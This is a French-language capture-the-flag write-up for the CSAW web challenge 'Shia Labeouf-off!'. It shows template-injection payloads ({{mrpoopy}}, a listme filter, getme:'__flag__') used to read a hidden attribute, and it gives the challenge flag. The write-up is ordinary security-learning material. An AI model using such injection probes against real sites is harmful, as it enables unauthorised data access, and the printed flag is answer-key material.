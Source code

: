 # Shia Labeouf-off! - web - 150 pts

## Désignation

Do it

Just do it

Don't let your dreams be dreams

Yesterday you said tomorrow

So just do it

Make your dreams come true

Just do it

Pick 1: http://web.chal.csaw.io:5487 http://web.chal.csaw.io:5488 http://web.chal.csaw.io:5489 http://web.chal.csaw.io:5490


## Solution

On se connecte au premier lien proposé et on arrive sur cette page :

![shia labeouf](shia labeouf.png)

En se baladant sur le site, on arrive vite sur l'onglet Ad-Lib qui nous dit ceci :

![Ad-Lib](Ad-Lib.png)

En injectant la commande `{{*}}` le site nous renvoie une erreur . En fouillant dans le code on tombe sur quelque chose d'intéressant :

![mrpoopy](mrpoopy.png)

En effet, on remarque que l'injection `mrpoopy` est possible . On envoie donc `{{mrpoopy}}` , ce qui vous donne :

    <ad-lib.someclass.Woohoo instance at 0x7fa795932680>

Puis on renvoie `{{mrpoopy|listme}}` et cela nous renvoie :

    ['Woohoo', '__doc__', '__flag__', '__module__']

Nous avons donc la méthode `__flag__` qui a l'air intéressante ! Pour afficher sont contenu, on envoie la commande `{{mrpoopy|getme:"__flag__"}}` .

    flag{wow_much_t3mplate}

FLAG : flag{wow_much_t3mplate}
